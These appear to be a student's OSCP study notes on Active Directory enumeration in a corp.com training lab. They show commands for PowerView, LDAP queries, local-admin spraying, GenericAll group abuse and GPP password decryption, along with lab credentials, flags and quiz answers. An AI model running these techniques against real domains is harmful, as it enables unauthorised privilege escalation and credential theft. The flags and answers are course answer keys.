




# Active Directory Introduction and Enumeration

## Tags
#ActiveDirectory #Enumeration #PowerView #BloodHound #SharpHound #LDAP #NetExe #Module22 #ADSI #DirectorySearcher #SPN #ACL #ACE #GenericAll #GPP #SYSVOL #Neo4j #NestedGroups #UACTokenFiltering #Inveigh #bloodhoundPython #DomainPasswordSpray #PingCastle #dsquery #LivingOffTheLand #corpCom #stephanie #CLIENT75 #OSCP

Module 22 of the OSCP PWK course. Assumed-breach scenario: we have `stephanie` credentials and RDP access to CLIENT75 in the `corp.com` domain. Goal: enumerate the full domain and find paths to Domain Admin.

Cross-links: [[23. Attacking Active Directory Authentication|Attacking Active Directory Authentication]] | [[24. Lateral Movement in Active Directory|Lateral Movement in Active Directory]]. HTB AD Enumeration & Attacks supplementary content merged into this note (AD.1-AD.8, AD.20), Module 23 (AD.9-AD.10, AD.12-AD.13), and Module 24 (AD.11, AD.14-AD.22).

---

## Outstanding Sections

- [x] 22.1 AD Introduction
- [x] 22.1.1 Enumeration Goals
- [x] 22.2 Manual Enumeration
- [x] 22.2.1 Legacy Windows Tools (net.exe)
- [x] 22.2.2 PowerShell + .NET Classes
- [x] 22.2.3 Adding Search Functionality / Function
- [x] 22.2.4 PowerView
- [x] 22.3 Expanding Enumeration
- [x] 22.3.1 Operating Systems
- [x] 22.3.2 Permissions and Logged-On Users
- [x] 22.3.3 Service Principal Names
- [x] 22.3.4 Object Permissions
- [x] 22.3.5 Domain Shares
- [x] 22.4 Automated Enumeration
- [x] 22.4.1 SharpHound
- [x] 22.4.2 BloodHound Analysis
- [x] 22.5 Wrapping Up
- [x] 22.6.1 External Recon (DNS TXT, SSL cert hostname, awk grepable parse)
- [x] 22.6.2 Inveigh LLMNR from Windows (Import-Module, Invoke-Inveigh, hashcat)
- [x] 22.6.3 Password Policy Enumeration (enum4linux, CME --pass-pol, rpcclient getdompwinfo, Get-DomainPolicy)
- [x] 22.6.4 DomainPasswordSpray.ps1 (Windows-side spray, auto-lockout-aware)
- [x] 22.6.5 Credentialed Enum Linux (rpcclient queryuser RID, CME --groups membercount)
- [x] 22.6.6 Extended Windows Enum (bloodhound-python, Snaffler -d domain-wide, PowerView extras, setspn.exe)
- [x] 22.6.7 Living Off the Land (Get-MpComputerStatus, net localgroup, dsquery disabled admin)
- [x] 22.6.8 Additional AD Auditing Tools (PingCastle, Adalanche, ADRecon)
- [x] 22.6.9 HTB Q&A answers (enum sections)

---

## Why This Module Matters

Active Directory is the backbone of most enterprise Windows environments. Nearly every OSCP exam and real-world engagement will have AD -- and blind enumeration is the difference between finding the attack path in 20 minutes and spinning wheels for hours.

This module builds the enumeration toolkit: getting the lay of the land with native tools, then adding PowerView and BloodHound for the full attack-path picture. Every technique here is a pre-req for the auth attacks (Module 23) and lateral movement (Module 24).

> 🔑 **Key insight:** BloodHound shortest path to Domain Admins is the most reliable method for complex environments. But SharpHound can't always be run (AV, no RDP). `bloodhound-python` from Kali handles remote collection when needed.

> 🎓 **OSCP context:** The exam has at least one AD set. Building the mental model now -- object → attribute → permission → path -- is what lets you see the attack chain when you're under time pressure.

---

## 22.1 Active Directory — Introduction

AD (Active Directory Domain Services) is a Microsoft directory service that manages users, computers, groups, and permissions at scale. Everything in AD is an **object**, and every object has **attributes**.

### Key terminology

| Term | What it is |
|---|---|
| **Domain** | The namespace and boundary — e.g. `corp.com` |
| **Domain Controller (DC)** | Server that hosts AD, handles authentication, stores all objects. Core and hub of the domain. |
| **PDC (Primary DC)** | The DC holding the `PdcRoleOwner` FSMO role — most up-to-date for enumeration |
| **Organizational Unit (OU)** | Container for objects (like folders). Used to organise and delegate admin |
| **Object** | Any entity in AD: user, computer, group |
| **Attribute** | Properties on an object — e.g. user has `samAccountName`, `memberOf`, `pwdLastSet` |
| **Distinguished Name (DN)** | Unique LDAP identifier: `CN=stephanie,CN=Users,DC=corp,DC=com` |
| **CN** | Common Name — identifier for the object |
| **DC (in DN context)** | Domain Component — top of the LDAP tree |
| **Domain Admins** | Group with full control over the domain — primary target |
| **Enterprise Admins** | Full control over ALL domains in the forest — highest privilege |
| **Domain tree** | Multiple domains under one root |
| **Domain forest** | Multiple domain trees |
| **LDAP** | Protocol used to communicate with AD. Not AD-exclusive — other directory services use it too |

> 📸 Screenshot: AD objects diagram showing domain, DC, OUs, users/computers/groups

### 22.1.1 Enumeration Goals

Scenario: assumed breach via phishing, `stephanie` / `LegmanTeamBenzoin!!`, RDP to CLIENT75 (corp.com domain joined). Not a local admin on CLIENT75.

Goal: enumerate corp.com fully, find path to Domain Admin.

**Key principle:** every time you pivot to a new account, **repeat the full enumeration** from that account's perspective. Even accounts that look low-privilege may have individual permissions you'd otherwise miss.

When someone compromises a chained path through multiple higher-privilege accounts it's called a **chained compromise**.

> 🔁 External reference: [HackTricks: Active Directory Methodology](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/README.md), the full-spectrum enumeration checklist this module's approach maps onto. Good to cross-reference after finishing this module.

---

## 22.2 Manual Enumeration

### 22.2.1 Legacy Windows Tools — net.exe

Connect first:

```bash
# From Kali
xfreerdp /u:stephanie /d:corp.com /v:192.168.50.75 /cert:ignore
```

> 🔧 Technique: Always use RDP for AD enumeration, not WinRM/PSRemoting. PSRemoting causes the **Kerberos Double Hop** issue, which blocks domain enumeration tools from working correctly. RDP passes credentials directly to the machine.

Once on CLIENT75, open cmd or PowerShell.

**List all domain users:**

```cmd
net user /domain
```

Expected output: list of all domain accounts printed under `\\DC1.corp.com`. In this lab env: Administrator, dave, Guest, iis_service, jeff, jeffadmin, jen, krbtgt, pete, stephanie.

**Inspect a specific user:**

```cmd
net user jeffadmin /domain
```

Expected: full attribute dump including `Global Group memberships`, `jeffadmin` is in `Domain Admins`. Flag any accounts with admin-sounding names (jeff**admin**, adminXXX, etc.).

**List all domain groups:**

```cmd
net group /domain
```

Expected: all groups including built-in defaults and custom ones. Custom groups are interesting, `Sales Department`, `Management Department`, `Development Department`, `Debug`.

**List members of a specific group:**

```cmd
net group "Sales Department" /domain
```

Expected: `pete` and `stephanie`. But note: `net.exe` only shows user objects in groups, **not nested group objects**. This is a blind spot.

> 🔍 Worth remembering generally: `net.exe` can't see nested groups. If `Development Department` is a member of `Sales Department`, `net.exe` skips it. PowerView catches this.

> 📸 Screenshot: `net group "Management Department" /domain` output showing jen as the member

**22.2.1 Labs**

Q1: Which type of server acts as the core and hub of a domain hosted in Active Directory?
**Answer: Domain Controller**

> 🚩 Hands-on, VM spin-up required: 22.2.1 Q2. VM Group 1, log in as stephanie, use net.exe to enumerate corp.com, find which user is a member of the Management Department group ✅ Done, **jen**

> 🚩 Hands-on, VM spin-up required: 22.2.1 Q3. VM Group 2, use net.exe to enumerate users and groups in the modified corp.com domain to obtain the flag ✅ Done, flag `OS{9a96196d97c528fa733889f63a01a5fe}` (appeared embedded in a group name in the modified domain)

---

### 22.2.2 Enumerating AD Using PowerShell and .NET Classes

`Get-ADUser` only works on DCs by default (RSAT). Instead, use .NET classes, works with any domain user, no admin needed.

#### LDAP path format

```
LDAP://HostName[:PortNumber][/DistinguishedName]
```

We need: Hostname of PDC + DN of the domain.

#### Step 1: Get the PDC hostname

```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

Expected: domain object with `PdcRoleOwner : DC1.corp.com` and other properties. The property showing the PDC is `PdcRoleOwner`.

Store in script:

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
```

#### Step 2: Get the Distinguished Name

```powershell
([adsi]'').distinguishedName
```

Expected output: `DC=corp,DC=com`. The two single quotes tell ADSI to start at the top of the hierarchy.

```powershell
$DN = ([adsi]'').distinguishedName
```

#### Step 3: Build the full LDAP path

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName
$LDAP = "LDAP://$PDC/$DN"
$LDAP
```

Expected: `LDAP://DC1.corp.com/DC=corp,DC=com`

> 📸 Screenshot: PowerShell terminal showing LDAP path output

**The ADSI set of COM interfaces is what gives us the LDAP provider for AD communication.** Full name: Active Directory Services Interface.

**22.2.2 Labs**

Q1: Which property in the domain object shows the primary domain controller for the domain?
**Answer: PdcRoleOwner**

Q2: Which set of COM interfaces gives us an LDAP provider we can use for communication with Active Directory?
**Answer: ADSI (Active Directory Services Interface)**

---

### 22.2.3 Adding Search Functionality to our Script

Use two .NET classes:
- `DirectoryEntry` — encapsulates an AD object (our LDAP path as the starting point)
- `DirectorySearcher` — runs LDAP queries. `FindAll()` returns all results

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()
```

Expected: huge list of every AD object, each with a `Path` and `Properties`.

#### Filter on samAccountType

The `samAccountType` attribute is on every user, computer, and group object. `0x30000000` (decimal `805306368`) = user accounts.

```powershell
$dirsearcher.filter = "samAccountType=805306368"
$dirsearcher.FindAll()
```

Expected: one row per user, showing LDAP path and truncated properties.

#### Print all properties per object (nested foreach)

```powershell
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host "-------------------------------"
}
```

Expected: for each user, all attributes printed line by line, separated by dashes. You'll see `memberof`, `pwdlastset`, `lastlogon`, etc.

#### Filter on a specific user + one attribute

```powershell
$dirsearcher.filter = "name=jeffadmin"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop.memberof
    }
    Write-Host "-------------------------------"
}
```

Expected: `CN=Domain Admins,CN=Users,DC=corp,DC=com` and `CN=Administrators,CN=Builtin,DC=corp,DC=com`.

#### Encapsulate as a reusable function

```powershell
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()
}
```

Import it: `Import-Module .\function.ps1`

Usage examples:

```powershell
# All users
LDAPSearch -LDAPQuery "(samAccountType=805306368)"

# All groups (by objectClass)
LDAPSearch -LDAPQuery "(objectclass=group)"

# All groups + CN and member attributes
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
    $group.properties | select {$_.cn}, {$_.member}
}

# Specific group
$sales = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Sales Department))"
$sales.properties.member
```

Expected for Sales Department member:
```
CN=Development Department,DC=corp,DC=com
CN=pete,CN=Users,DC=corp,DC=com
CN=stephanie,CN=Users,DC=corp,DC=com
```

Note that `Development Department` is a **nested group**, `net.exe` missed this entirely.

#### Unravelling nested groups

```powershell
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Department*))"
$group.properties.member
# Returns: CN=Management Department,DC=corp,DC=com + CN=pete + CN=dave

$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Management Department*))"
$group.properties.member
# Returns: CN=jen,CN=Users,DC=corp,DC=com
```

Chain: Sales Department contains Development Department contains Management Department contains jen. Jen is indirectly a member of all three. Misconfigured indirect membership = potential privilege escalation.

> 🔍 Worth remembering generally: nested group membership is invisible to `net.exe` but fully visible via LDAP. Always unravel nested groups, users often inherit more access than intended.

> 📸 Screenshot: nested group chain output in PowerShell showing Development Department → Management Department → jen

**22.2.3 Labs**

Q1: Which .NET class makes the search against Active Directory?
**Answer: DirectorySearcher**

> 🚩 Hands-on, VM spin-up required: 22.2.3 Q2. VM Group 2, use the PowerShell function to enumerate domain groups starting with "Service Personnel", unravel the nested groups, enumerate the last direct user member's attributes to get the flag ✅ Done, nested chain Service Personnel → Billing → Customer support → michelle. Flag was in michelle's `description` attribute.

---

### 22.2.4 AD Enumeration with PowerView

PowerView is a PowerShell script in `C:\Tools\PowerView.ps1`. Much more capable than the manual LDAP approach.

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```

#### Core commands

```powershell
# Domain info (like GetCurrentDomain)
Get-NetDomain

# All users + all attributes
Get-NetUser

# Clean list of usernames
Get-NetUser | select cn

# Users + password and logon timestamps
Get-NetUser | select cn,pwdlastset,lastlogon

# All groups
Get-NetGroup | select cn

# Specific group's members
Get-NetGroup "Sales Department" | select member
```

Expected for `Get-NetUser | select cn,pwdlastset,lastlogon`: table showing all accounts, when passwords were last changed, and last logon times. Dormant accounts (old lastlogon, old pwdlastset) are soft targets.

> 🔍 Worth remembering generally: dormant accounts are lower-risk targets during an engagement, less monitoring, potentially weaker passwords (set before the current policy), and fewer alerts if you log in. Always check `pwdlastset` and `lastlogon`.

> 📸 Screenshot: PowerView Get-NetUser output with timestamp columns

> 🔁 External reference: [ippsec.rocks PowerView search](https://ippsec.rocks/?#PowerView), all IppSec boxes where PowerView appears, useful for seeing it used against real targets.

**22.2.4 Labs**

Q1: Which command can we use with PowerView to list the domain groups?
**Answer: Get-NetGroup**

> 🚩 Hands-on, VM spin-up required: 22.2.4 Q2. VM Group 2, use PowerView to enumerate the modified corp.com domain, find which new user is part of Domain Admins ✅ Done, **nathalie** (VM required a full stop/restart to finish provisioning; first spin-up was incomplete)

> 🚩 Hands-on, VM spin-up required: 22.2.4 Q3. VM Group 2 continued, enumerate which Office the user "fred" is working in to obtain the flag ✅ Done, flag `OS{83705ff83d6fd0656ca22291a2adc801}` (fred's `physicaldeliveryofficename` attribute)

---

## 22.3 Manual Enumeration — Expanding our Repertoire

### 22.3.1 Enumerating Operating Systems

```powershell
# All computer objects + all attributes
Get-NetComputer

# Clean list: OS + hostname
Get-NetComputer | select operatingsystem,dnshostname

# Add version number
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

Expected output from lab env:

| dnshostname | operatingsystem | operatingsystemversion |
|---|---|---|
| DC1.corp.com | Windows Server 2022 Standard | 10.0 (20348) |
| web04.corp.com | Windows Server 2022 Standard | 10.0 (20348) |
| FILES04.corp.com | Windows Server 2022 Standard | 10.0 (20348) |
| client74.corp.com | Windows 11 Pro | 10.0 (22000) |
| client75.corp.com | Windows 11 Pro | 10.0 (22000) |
| CLIENT76.corp.com | Windows 10 Pro | 10.0 (16299) |

The oldest OS is Windows 10 build 16299 (version 1709). Older OSes may have more vulnerabilities. The web server and file server are worth targeting.

> 🔍 Worth remembering generally: grab OS + version early. Older builds mean older patches. Also reveals the scope, how many machines are actually in scope.

> 📸 Screenshot: Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion output

**22.3.1 Labs**

> 🚩 Hands-on, VM spin-up required: 22.3.1 Q1. VM Group 1, use PowerView to get the DistinguishedName for the WEB04 machine ✅ Done, `CN=web04,CN=Computers,DC=corp,DC=com`

> 🚩 Hands-on, VM spin-up required: 22.3.1 Q2. VM Group 1, find the exact operating system version for FILES04 (format: xx.x (xxxxx)) ✅ Done, `10.0 (20348)` (copy the exact string from terminal output including the space before the parenthesis)

> 🚩 Hands-on, VM spin-up required: 22.3.1 Q3. VM Group 2, enumerate operating systems in the modified corp.com domain to get the flag ✅ Done, flag `OS{9fbbdac3111332f364d262b1354fcb45}` (appeared in the `operatingsystemversion` field of one of the new machines)

---

### 22.3.2 Getting an Overview — Permissions and Logged-On Users

The goal is to find where other domain users are actively logged in. Their credentials may be cached in memory there. If we have admin access to that machine, we can potentially steal those credentials.

#### Find where we have local admin

```powershell
Find-LocalAdminAccess
```

Uses `OpenServiceW` to try connecting to the Service Control Manager (SCM) with `SC_MANAGER_ALL_ACCESS`. If it succeeds, we have local admin.

Expected output in lab: `client74.corp.com`, stephanie has admin on CLIENT74.

> ⚠️ This sprays every computer in the domain, generates noise. Note the time/decision carefully in a real engagement.

#### Enumerate logged-on sessions (limited success on modern Windows)

```powershell
# NetSessionEnum via PowerView (may fail on modern systems)
Get-NetSession -ComputerName files04
Get-NetSession -ComputerName files04 -Verbose
```

Expected result on modern Windows: `VERBOSE: [Get-NetSession] Error: Access is denied`.

**Why it fails:** The `SrvsvcSessionInfo` registry key under `HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` controls who can call `NetSessionEnum`. On Windows 10 1709+ and Server 2019+, regular users were removed from the allowed list. Only `BUILTIN\Administrators`, `SYSTEM`, and a capability SID are allowed.

```powershell
# Check the permissions on the key
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

Expected: `BUILTIN\Users Allow ReadKey` (can read the key itself) but `BUILTIN\Administrators Allow FullControl` and `NT AUTHORITY\SYSTEM Allow FullControl`, no Authenticated Users remote access to enumeration.

The registry key `NetSessionEnum` relies on is: **SrvsvcSessionInfo**.

#### PsLoggedOn — uses Remote Registry service

PsLoggedOn reads `HKEY_USERS` registry hive to find SIDs of logged-in users. Requires the **Remote Registry** service on the target machine.

Remote Registry is:
- Disabled by default on Windows 8+ workstations
- Enabled by default on Windows Server 2012 R2, 2016, 2019, 2022

When inactive, it stops after 10 minutes but auto-restarts when PsLoggedOn connects.

```cmd
# From C:\Tools\PSTools\
.\PsLoggedon.exe \\files04
.\PsLoggedon.exe \\web04
.\PsLoggedon.exe \\client74
```

Expected for FILES04: `CORP\jeff` logged on locally.
Expected for WEB04: no users logged in (or "Unable to query resource logons").
Expected for CLIENT74: `CORP\jeffadmin` logged on locally, `CORP\stephanie` via resource shares.

> 🔍 Worth remembering generally: if `Get-NetSession` returns nothing and no error, that's actually a session result (for the machine you ran it from). If it errors with Access Denied, that's the DefaultSecurity permissions issue. Use `-Verbose` to distinguish.

> 🔧 Technique: PsLoggedOn also uses NetSessionEnum internally, that's why CLIENT74 showed `stephanie` via resource shares (because we had an open session from CLIENT75, which needed a logon).

> 📸 Screenshot: PsLoggedOn output against CLIENT74 showing jeffadmin

**Key finding:** stephanie has local admin on CLIENT74, jeffadmin is logged in there. If we can get on CLIENT74 and dump memory, we get jeffadmin's credentials = Domain Admin.

**22.3.2 Labs**

Q1: What registry key does NetSessionEnum rely on to discover logged on sessions? Submit the name of the registry key as the answer, not the path.
**Answer: SrvsvcSessionInfo**

Q2: Which service must be enabled on the remote machine to make it possible for PsLoggedOn to enumerate sessions?
**Answer: Remote Registry**

> 🚩 Hands-on, VM spin-up required: 22.3.2 Q3. VM Group 2, find which new machine stephanie has administrative privileges on, log in, obtain the flag from the Administrator Desktop ✅ Done, `Find-LocalAdminAccess` showed stephanie has admin on `web04.corp.com` and `client74.corp.com`. Direct path `C:\Users\Administrator\Desktop\` was access denied due to **UAC token filtering** (RDP domain user session gets a filtered token). Got the flag via UNC admin shares from CLIENT75 instead: `type \\web04\c$\Users\Administrator\Desktop\proof.txt`

> 🔧 Technique. UAC token filtering: when you RDP to a machine as a domain user who happens to be a local admin, the session runs a **filtered token**, you can't directly access other users' profiles or restricted paths. The unfiltered admin token is only available when you explicitly elevate. Workaround: access admin shares from a different machine using `\\target\c$\...` over the network rather than locally, that path uses the network token which isn't filtered.

---

### 22.3.3 Enumeration Through Service Principal Names

Services in AD run under **Service Accounts**. When an application (Exchange, MSSQL, IIS) integrates with AD, it registers a **Service Principal Name (SPN)**, a unique identifier linking the service to a specific AD account.

SPNs let us enumerate what services are running on which servers without port scanning.

```cmd
# List SPNs for a specific user
setspn -L iis_service
```

Expected: `HTTP/web04.corp.com`, `HTTP/web04`, `HTTP/web04.corp.com:80`, this is a web server.

```powershell
# List all accounts with SPNs (via PowerView)
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

Expected:
- `krbtgt` — `kadmin/changepw` (built-in)
- `iis_service` — `HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80`

```powershell
# Resolve the hostname
nslookup.exe web04.corp.com
```

Expected: resolves to an internal IP (e.g. 192.168.50.72), showing a web server login page.

> 🔍 Worth remembering generally: SPN enumeration = free service map of the domain without a single port scan. Any account with an SPN is potentially Kerberoastable (covered in the auth attacks module).

> 🔁 Similar to: [[22. Active Directory Introduction and Enumeration|HTB AD §8 Kerberoasting]]. SPNs are the prerequisite for Kerberoasting.

**22.3.3 Labs**

Q1: What is the name of the unique service identifier that is used to associate to a specific service in Active Directory?
**Answer: Service Principal Name (SPN)**

---

### 22.3.4 Enumerating Object Permissions

Every AD object has an **Access Control List (ACL)**, made up of individual **Access Control Entries (ACEs)**. Each ACE grants or denies a specific permission to a specific principal.

#### Interesting permission types

| Permission | What it allows |
|---|---|
| `GenericAll` | Full permissions on the object |
| `GenericWrite` | Edit certain attributes |
| `WriteOwner` | Change the object's owner |
| `WriteDACL` | Edit the ACEs applied to the object |
| `AllExtendedRights` | Change password, reset password, etc. |
| `ForceChangePassword` | Force a password change |
| `Self (Self-Membership)` | Add yourself to a group |

The most powerful: **GenericAll**.

#### Enumerate ACEs on an object

```powershell
# All ACEs on stephanie's user object
Get-ObjectAcl -Identity stephanie
```

Expected: many entries. Key properties: `ObjectSID` (who the ACE applies to), `SecurityIdentifier` (who has the permission), `ActiveDirectoryRights` (what the permission is), `AceQualifier` (AccessAllowed or AccessDenied).

```powershell
# Convert a SID to a readable name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
# Returns: CORP\stephanie
```

#### Find all GenericAll permissions on a specific group

```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

Expected: five SIDs with GenericAll. Convert them all:

```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

Results:
- `CORP\Domain Admins` — expected
- `CORP\stephanie` — unexpected for a regular user! Misconfiguration.
- `BUILTIN\Account Operators` — built-in
- `Local System` — built-in
- `CORP\Enterprise Admins` — expected

#### Abusing GenericAll

Since stephanie has GenericAll on Management Department, we can add ourselves:

```powershell
net group "Management Department" stephanie /add /domain
Get-NetGroup "Management Department" | select member
# Both jen and stephanie now appear
```

Clean up:

```powershell
net group "Management Department" stephanie /del /domain
Get-NetGroup "Management Department" | select member
# jen only
```

> 🔍 Worth remembering generally: misconfigured ACEs (especially GenericAll on groups) are one of the most common real-world AD privilege escalation paths. Always enumerate object permissions after you get a foothold.

> 📸 Screenshot: Get-ObjectAcl output showing stephanie with GenericAll on Management Department

> 🔁 External reference: [HackTricks: AD ACLs/DACLs/SACLs/ACEs](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/acls-dacls-sacls-aces.md), full breakdown of every ACE type and how to abuse each one.

> 🔁 External reference: [PayloadsAllTheThings: Active Directory Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md). ACL abuse section has command chains for GenericAll, GenericWrite, ForceChangePassword, etc.

**22.3.4 Labs**

Q1: What kind of entries makes up an ACL?
**Answer: Access Control Entries (ACE)**

Q2: What is the most powerful ACL we can have on an object in Active Directory?
**Answer: GenericAll**

---

### 22.3.5 Enumerating Domain Shares

```powershell
Find-DomainShare
# Add -CheckShareAccess to only show shares readable by our user
```

Expected: list of shares across all computers. In this env:
- `DC1.corp.com`: ADMIN$, C$, IPC$, NETLOGON, **SYSVOL**
- `web04.corp.com`: ADMIN$, **backup**, C$, IPC$
- `FILES04.corp.com`: ADMIN$, **C**, C$, **docshare**, IPC$, **Tools**, **Users**, **Windows**
- `client74.corp.com`, `client75.corp.com`: standard defaults + `sharing` on client75

#### SYSVOL

SYSVOL is hosted on the domain controller (DC1.corp.com) and accessible by all domain users. Contains domain policies and scripts.

```powershell
ls \\dc1.corp.com\sysvol\corp.com\
ls \\dc1.corp.com\sysvol\corp.com\Policies\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

The XML file contains a `cpassword` field, a GPP (Group Policy Preferences) encrypted password. These are encrypted with AES-256 but the private key was published on MSDN. **Completely broken.** Decrypt on Kali:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
# Output: P@$$w0rd
```

> 🔧 Technique: GPP cPassword decryption is a classic finding. Even in modern environments, old XML files often linger in SYSVOL for years. Always search for `cpassword` in any XML file on SYSVOL.

```bash
# Search for cpassword on SYSVOL (quick grep approach)
findstr /S /I "cpassword" \\dc1.corp.com\sysvol\
```

> 🔁 External reference: [HackTricks: GPP Passwords](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/windows-local-privilege-escalation/README.md), also check ippsec.rocks `#GPP` for real examples in HTB boxes like Active.

> 🔁 Similar to: [[22. Active Directory Introduction and Enumeration]]. Active (HTB) builds this exact technique into the box.

#### docshare on FILES04

```powershell
ls \\FILES04\docshare
ls \\FILES04\docshare\docs\do-not-share
cat \\FILES04\docshare\docs\do-not-share\start-email.txt
```

Expected: email thread between Stephanie and Jeff. Jeff's auto-generated password: `HenchmanPutridBonbon11`. Possibly changed but worth noting, gives insight into the org's password pattern (word + word + number).

> 📸 Screenshot: start-email.txt content showing the cleartext password

> 🔍 Worth remembering generally: shares called "do-not-share" are often misconfigured and very much shared. Names like these are reliable indicators of admin oversight errors. Always read files that seem like they shouldn't be there.

**22.3.5 Labs**

Q1: What is the hostname for the server sharing the SYSVOL folder in the corp.com domain?
